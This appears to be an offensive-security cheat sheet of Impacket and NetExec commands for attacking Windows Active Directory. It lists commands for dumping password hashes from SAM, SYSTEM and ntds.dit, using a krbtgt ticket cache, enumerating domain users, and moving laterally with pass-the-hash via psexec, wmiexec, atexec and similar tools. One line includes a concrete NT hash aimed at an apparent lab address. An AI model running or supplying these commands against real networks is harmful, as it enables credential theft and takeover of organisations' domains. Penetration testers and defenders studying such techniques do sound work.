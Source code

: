 
- Password must be change smb:
```bash
smbpasswd -r $domain -U '$user'
```

- Extract password from SAM & SYSTEM :
```sh
secretsdump.py -sam SAM.SAV -system SYSTEM.SAV LOCAL
```

- Extract hash from ntds.dit : 
```sh
secretsdump.py -ntds ntds.dit -system SYSTEM.SAV LOCAL
```
- Dump hash with Ccache of krbtgt :
```sh
export KRB5CCNAME=DC1\$@DELEGATE.VL_krbtgt@DELEGATE.VL.ccache 
secretsdump.py -k DC1.delegate.vl
```

- Enumerate RPC : 
```sh
samrdump.py <domain>/<username>:<password>@<target_IP>
```
- Enumerate domain user :
```sh
GetADUsers.py -all pentesting.local/ippsec:Password12345 -dc-ip 192.168.10.50
```

- Lateral movement : 
```sh
psexec.py -hashes 'LMhash:NThash' 'DOMAIN/USER@TARGET'
smbexec.py -hashes 'LMhash:NThash' 'DOMAIN/USER@TARGET'
wmiexec.py -hashes 'LMhash:NThash' 'DOMAIN/USER@TARGET'
atexec.py -hashes 'LMhash:NThash' 'DOMAIN/USER@TARGET'
dcomexec.py -hashes 'LMhash:NThash' 'DOMAIN/USER@TARGET'
```

- Find the right  tool :
```sh
nxc smb 10.10.202.39 --use-kcache -x whoami
atexec.py -hashes ':a29542cb2707bf6d6c1d2c9311b0ff02' 'ws01'/'Administrator'@'10.10.202.39' whoami
```